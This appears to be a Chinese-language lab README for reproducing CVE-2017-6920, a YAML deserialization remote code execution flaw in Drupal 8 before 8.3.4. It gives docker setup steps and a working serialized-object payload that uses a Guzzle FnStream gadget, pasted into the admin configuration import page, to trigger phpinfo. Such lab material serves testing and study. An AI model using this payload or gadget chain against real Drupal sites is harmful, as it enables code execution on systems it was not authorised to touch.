


# Drupal Core 8 PECL YAML反序列化远程代码执行漏洞（CVE-2017-6920）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

在使用PECL YAML解析器的Drupal 8.x至8.3.4版本中存在远程代码执行漏洞。该漏洞是由于YAML内容的不安全反序列化导致的，允许攻击者执行任意代码。

参考链接：

- <https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-06-21/drupal-core-multiple>
- <https://paper.seebug.org/334/>

## 环境搭建

执行如下命令启动一个存在漏洞的Drupal 8.3.0服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到Drupal的安装页面。按照默认配置完成安装步骤。由于环境中没有MySQL，可以选择SQLite作为数据库。

## 漏洞复现

首先，以管理员身份登录Drupal站点。然后，访问`http://127.0.0.1:8080/admin/config/development/configuration/single/import`页面。

在Configuration type中选择"Simple configuration"，Configuration name可以任意填写，在"Paste your configuration here"中粘贴以下PoC：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```



点击"Import"后，你将看到漏洞已成功触发，显示phpinfo页面：



> 注意：虽然官方CPE信息显示该漏洞从8.0.0版本就存在，但我们的测试表明只能在Drupal 8.3.0中复现，而在8.0.0中无法复现。
